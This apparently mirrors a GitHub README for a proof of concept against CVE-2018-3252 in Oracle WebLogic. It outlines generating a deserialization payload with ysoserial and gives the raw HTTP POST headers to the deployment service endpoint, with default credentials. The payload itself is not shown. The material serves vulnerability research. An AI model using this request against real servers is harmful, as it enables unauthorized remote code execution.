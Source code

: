 # CVE-2018-3252

CVE-2018-3252-PoC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/pyn3rd](https://github.com/pyn3rd) |
| Url      | [https://github.com/pyn3rd/CVE-2018-3252](https://github.com/pyn3rd/CVE-2018-3252)                                               |
| Stars    | 73                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2018-3252-PoC


#### 1.Generate PoC with YSOSERIAL


#### 2.You should know the `USERNAME` and `PASSWORD` of the target weblogic server


#### 3.Send the payload to the URL


```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 127.0.0.1:7001
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
wl_request_type: data_transfer_request
username: weblogic
password: weblogic
serverName: pyn3rd
deployment_request_id: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.75 Safari/537.36 QQBrowser/4.1.4132.400
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close
Content-Length: 3334
```



## Get the content

```
git clone https://github.com/pyn3rd/CVE-2018-3252
cd CVE-2018-3252
```

{% embed url="https://github.com/pyn3rd/CVE-2018-3252" %}

<figure><img src="https://avatars.githubusercontent.com/u/41412951?v=4" alt=""><figcaption><p>pyn3rd</p></figcaption></figure>

